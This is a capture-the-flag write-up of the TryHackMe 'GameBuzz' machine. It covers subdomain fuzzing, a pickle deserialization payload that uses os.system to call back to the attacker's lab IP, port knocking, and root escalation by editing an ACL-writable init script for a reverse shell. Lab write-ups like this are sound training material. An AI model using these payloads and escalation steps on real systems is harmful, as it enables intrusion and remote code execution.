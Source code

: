 <h3> GameBuzz TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b8867ef-56a0-43e5-860d-f2453459c873)

Going over to the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72c13526-255a-4bc4-ae0b-8d729902260d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/358c80bb-9bcd-49ff-9d4d-d22e05cf18b7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57414644-72f7-45a4-8ba3-b3ba4eb2e751)

Noticing the email *admin@incognito.com* we can deduct that the domain name is *incognito.com*

I'll add that to my */etc/hosts* file

Now poking around this web app i saw the *Game Rating* function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/35f31582-8204-4839-a88f-ee25889b5252)

When you click it and then click game 1 with a proxy on this is what I got
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73392813-ef46-4ce4-98e4-add3c1cfbfc9)

```json
{"object":"/var/upload/games/object.pkl"}
```

We can see that it's loading the object pickled file 🤔

Let's keep this in mind!

Now for more enumeration since we have the domain lets fuzz for sub domains 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a6783ee6-458f-4c0c-a655-c34d945fe539)

I got *dev* so i'll update my */etc/hosts* file with the new subdomain *dev.incognito.com*

Going over to the newly founded subdomain shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/406ca395-c76f-41f1-b11a-b2948a14d85a)

Checking */robots.txt* shows */secret*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b6d8c8c-0285-4aec-bd2b-13f7bc04f112)

But after navigating to */secret* gives 403 forbidden
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/add9bbf8-6807-4155-ae7d-659b2488e247)

So I fuzzed for files there and got */upload*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c1966332-64c8-4382-8ed7-75c9343d5055)

Moving there shows an upload form 

Now this is good cause remember from the main domain we can call any pickled file and since we are opportuned to upload any file lets upload a pickle file

I made a script to make icmp callback to my host

```python
#!/usr/bin/python3
# Author: Hack.You
import os
import pickle

class Shell(object):
    def __reduce__(self):
        cmd = 'ping -c 5 10.2.42.156'
        return (os.system, (cmd,))

pickledData = pickle.dumps(Shell())
with open('payload.pkl', 'wb') as f:
    f.write(pickledData)

```

Running it creates the pickle file 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3d67b081-9fbf-44dd-92bf-e90fb55d9253)

Now let upload the serialized payload
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/edb33e1e-ad19-4e34-b60f-101383fcac10)

I already setup *tcpdump* listening for icmp connection 

```bash
sudo tcpdump -i tun0 icmp
```

Since the file is already uploaded we can call it via the fetch endpoint on the main domain
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9419975b-ed4c-4d53-9eb0-cec23cc454d6)

```json
{"object":"/var/upload/payload.pkl"}
```

Back on tcpdump we get a hit 😄
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a0bdbe0-d147-4350-a9f5-de65e9ad368f)

Now lets get shell. Here's my payload [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/GameBuzz/pickle.py)

After running it and uploading it then using the fetch endpoint to load the pickle data I got shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7ee6d51c-1040-4c2d-be89-184992a40d11)

Let do some privilege escalation 

Running linpeas shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f9e7b38c-e18f-46e5-afd3-12d59976714e)

Viewing the file gives the password for user dev1 as *dc647eb65e6711e155375218212b3964*

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b23adc48-ccec-49a1-b591-44f805c2e430)

But we can't switch to the user from the box so we need to login to ssh

But no ssh port is open

From the hint we are to do port knocking for we to get access to the ssh service

Looking at the knock config file shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8f9969a0-aaa0-4b25-ad6e-de2de82580c6)

This means we're to knock the followng ports *[5020,6120,7340]* for ssh to be open

Luckily there's an open source tool on kali that can easily do this for us
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a42f9b32-9a61-4c67-9722-ee7a508a6f37)

Now that ssh is open let us login as dev1
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e766b550-f2ef-471e-b284-70fee8cfba5a)

Checking *sudo -l* shows we can run as *root* on */etc/init.d/knockd*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4cad41e1-c3db-484b-bdd2-ec0e5dd73d8e)

But we don't have write access over the file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a4915ecf-851b-4452-ba1e-3b763f9afaa3)

So i ran linpeas again and got this

It shows this file has ACL perm set on it

And to confirm it we can check it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fee6e2a0-0a09-42fb-9e5d-0cf821d92d16)

The *+* sign at the end of the perm signifies ACl 

With ACL set on we can change the permission on the file

So lets edit it to get a reverse shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4fa768fb-90a4-47b1-af59-8fefc4958d25)

Now lets restart the service
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8e541218-4b6a-4a7e-bdc7-b7cc82a9047d)

With this set we now need to stop the knock service and start it back then port knock the ports
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fcfc4db2-3b61-495b-9707-9da2d1fd1e69)

And we're done 👻
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ed17bd46-1cda-46cf-801b-254300e3d2cb)


